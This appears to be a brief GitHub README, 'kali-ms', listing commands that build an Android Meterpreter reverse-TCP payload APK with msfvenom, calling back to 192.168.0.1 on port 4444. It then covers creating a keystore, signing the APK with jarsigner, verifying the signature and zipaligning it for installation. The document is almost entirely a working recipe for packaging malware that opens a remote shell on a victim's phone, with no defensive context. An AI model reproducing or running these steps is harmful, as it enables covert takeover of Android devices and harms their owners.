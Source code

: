 # kali-ms


msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.1  LPORT=4444 R > reverse_tcp.apk


## keytool

keytool -genkey -V -keystore key.keystore -alias krnick -keyalg RSA -keysize 2048 -validity 1000

## Sign

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore reverse_tcp.apk krnick

## check signing

jarsigner -verify -verbose -certs reverse_tcp.apk

## optimization

zipalign -v 4 reverse_tcp.apk singed_reverse_tcp.apk
